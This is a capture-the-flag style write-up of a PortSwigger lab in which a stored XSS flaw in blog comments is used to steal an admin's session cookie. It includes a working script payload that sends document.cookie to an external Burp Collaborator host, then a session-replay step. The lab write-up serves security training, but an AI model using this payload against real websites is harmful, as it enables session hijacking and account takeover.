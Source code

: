 ```yaml
---
layout: post
title:  "Exploiting cross-site scripting to steal cookies"
date:   2024-09-29 09:39:54 +0530
categories: [BSCP, XSS]
---
```


## Initial Information

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

  

## Things to Remember 

<p>
    To prevent the Academy platform from being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use <mark>Burp Collaborator’s default public server</mark>.
</p>
<p>
    Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than <mark>exfiltrating the cookie</mark>.
</p>

  

## Solution

Kind of looks like a blog forum where we can comment on those blog posts by viewing the blog 

  

![]({{ site.baseurl }}/assets/images/image%2010.png)  

  

Sprayed the following payload `nithissh"><h2>XSS` on every field and to check whether any other fields are vulnerable other than, comment functionality it self.. But in our case, the blog comment field is vulnerable actually which we already know 

  

![]({{ site.baseurl }}/assets/images/image%2011.png)  

Now, we have confirmed that the vulnerability exists over there and in order to acheive our endgoal which is stealing the cookie value we need to curate a payload that it will steal the cookie and send it to our external server 

  

For that, we can use burp collaborator.. also there are other alternatives like interactsh or webhooks but portswigger enabled for all labs which needs OOB interaction we have to indefinitely use the burp collaborator

  

Coming to the payload part, Here is the sample payload where it utilizes the `<script>` tag 

  

```html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```

  

Further moving ahead, replace the actual `[URL]`  with our burp collaborator ( `xyzy5c2elakzj8tsd599t5golfr6fw3l.oastify.com`  ) in an HTTP protocol and complete payload which we gonna utilize looks like as follows

  

```html
<script>
document.write('<img src="http://xyzy5c2elakzj8tsd599t5golfr6fw3l.oastify.com/?c='+document.cookie+'" />');
</script>
```

  

Now paste the payload into blog comment and look through the burp collab for any interaction related to cookie 

  

Looking and polling through, there is a interaction came in HTTP.. tied along with a cookie 

  

![]({{ site.baseurl }}/assets/images/image%2012.png)  

  

Now take the `session` value and replace with our session value eithier through burp repeater or through local storage we can do that and referesh the page, you will be logged in as a admin and the lab is solved 

  

![]({{ site.baseurl }}/assets/images/image%2013.png)  

  

## Do u Know why u got the admin token over there ?

Because every now and then, administrator over looks through the blog comments eithier some kind of bot is automating it or any other manual interaction which happened accidentally